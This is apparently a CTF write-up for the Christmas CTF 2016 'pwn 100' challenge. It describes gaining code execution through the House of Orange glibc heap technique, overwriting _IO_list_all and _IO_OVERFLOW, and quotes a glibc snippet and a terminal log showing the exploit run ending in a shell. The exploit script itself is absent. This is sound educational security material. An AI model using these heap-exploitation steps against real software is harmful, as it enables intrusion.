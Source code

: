 
# House of Daehee
-----------------------------
from Christmas CTF 2016
pwn 100

code seems like unlink problem of [pwnable.kr](http://pwnable.kr)   
There are two differences.  
1. given libc leak instead of stack address leak   
2. nullified argv and envp

To solve this, I followed  [House of Orange](http://4ngelboy.blogspot.kr/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)



After overwrite _IO_list_all pointer, in abort routine, I got the rip control by overwritten function pointer (_IO_OVERFLOW)

  ```c
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)

#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
      || (_IO_vtable_offset (fp) == 0
        && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
          > fp->_wide_data->_IO_write_base))
#endif
    )
    && _IO_OVERFLOW (fp, EOF) == EOF)
  result = EOF;
```



```bash
christmas1@ubuntu:/tmp/heheunlink2$ ./sol_unlink2.py
[+] Starting local process '/home/christmas1/unlink2': Done
70774af855

*** Error in `': double free or corruption (!prev): 0x000055f84a770030 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x77725)[0x7f4831539725]
/lib/x86_64-linux-gnu/libc.so.6(+0x7ff4a)[0x7f4831541f4a]
/lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7f4831545abc]
[0x55f848810a52]
[0x55f848810d6f]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f48314e2830]
[0x55f848810899]
======= Memory map: ========
55f848810000-55f848812000 r-xp 00000000 08:01 1049659                    /home/christmas1/unlink2
55f848a11000-55f848a12000 r--p 00001000 08:01 1049659                    /home/christmas1/unlink2
55f848a12000-55f848a13000 rw-p 00002000 08:01 1049659                    /home/christmas1/unlink2
55f84a770000-55f84a791000 rw-p 00000000 00:00 0                          [heap]
7f482c000000-7f482c021000 rw-p 00000000 00:00 0
7f482c021000-7f4830000000 ---p 00000000 00:00 0
7f48312ac000-7f48312c2000 r-xp 00000000 08:01 3539479                    /lib/x86_64-linux-gnu/libgcc_s.so.1
7f48312c2000-7f48314c1000 ---p 00016000 08:01 3539479                    /lib/x86_64-linux-gnu/libgcc_s.so.1
7f48314c1000-7f48314c2000 rw-p 00015000 08:01 3539479                    /lib/x86_64-linux-gnu/libgcc_s.so.1
7f48314c2000-7f4831682000 r-xp 00000000 08:01 3539453                    /lib/x86_64-linux-gnu/libc-2.23.so
7f4831682000-7f4831881000 ---p 001c0000 08:01 3539453                    /lib/x86_64-linux-gnu/libc-2.23.so
7f4831881000-7f4831885000 r--p 001bf000 08:01 3539453                    /lib/x86_64-linux-gnu/libc-2.23.so
7f4831885000-7f4831887000 rw-p 001c3000 08:01 3539453                    /lib/x86_64-linux-gnu/libc-2.23.so
7f4831887000-7f483188b000 rw-p 00000000 00:00 0
7f483188b000-7f48318b1000 r-xp 00000000 08:01 3539429                    /lib/x86_64-linux-gnu/ld-2.23.so
7f4831aa1000-7f4831aa4000 rw-p 00000000 00:00 0
7f4831aad000-7f4831ab0000 rw-p 00000000 00:00 0
7f4831ab0000-7f4831ab1000 r--p 00025000 08:01 3539429                    /lib/x86_64-linux-gnu/ld-2.23.so
7f4831ab1000-7f4831ab2000 rw-p 00026000 08:01 3539429                    /lib/x86_64-linux-gnu/ld-2.23.so
7f4831ab2000-7f4831ab3000 rw-p 00000000 00:00 0
7ffd0ad85000-7ffd0ada6000 rw-p 00000000 00:00 0                          [stack]
7ffd0ade1000-7ffd0ade3000 r--p 00000000 00:00 0                          [vvar]
7ffd0ade3000-7ffd0ade5000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
$ id
uid=1098(christmas1) gid=1098(christmas1) egid=1101(christmas1_pwn) groups=1101(christmas1_pwn),1098(christmas1)
$
```




